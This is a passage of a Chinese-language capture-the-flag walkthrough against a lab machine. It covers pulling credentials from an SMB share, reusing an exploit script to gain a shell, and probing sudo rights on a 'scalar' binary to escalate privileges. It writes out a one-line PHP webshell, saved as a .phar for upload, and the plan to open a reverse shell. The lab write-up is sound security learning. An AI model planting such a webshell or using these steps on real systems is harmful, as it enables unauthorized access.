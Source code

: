 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641922.png" alt="image-20240323150124755" style="zoom: 33%;" />

### 漏洞利用

还是扫不出来，这里可能靶机出了点问题，看看别人怎么做的吧：

smb服务中存在一个·`configz.zip`文件，使用get命令进行下载，过滤以后会发现账号密码：

```apl
amdin	
jojo1989
```

尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641923.png" alt="image-20240323150936705" style="zoom:50%;" />

尝试利用之前那个脚本：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641924.png" alt="image-20240323151622082" style="zoom: 50%;" />

成功获取到了shell！

## 提权

### 切换至adriana用户

```bash
$ sudo -l
Matching Defaults entries for www-data on adria:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on adria:
    (adriana) NOPASSWD: /usr/bin/scalar
```

搜集到了一个`scalar`:

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641925.png" alt="image-20240323152150004" style="zoom:33%;" />

尝试以`adriana`运行一下：

```bash
sudo -u adriana /usr/bin/scalar
```

但是无回显，查看一下帮助文档，但是均无回显，python也扩展不了这个shell，淦。

算了，创建一个`.phar`的php一句话木马文件上传，再反弹吧：

```bash
vim muma.phar
# <?php system($_GET["hack"]);?>
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641926.png" alt="image-20240323155334370" style="zoom:50%;" />
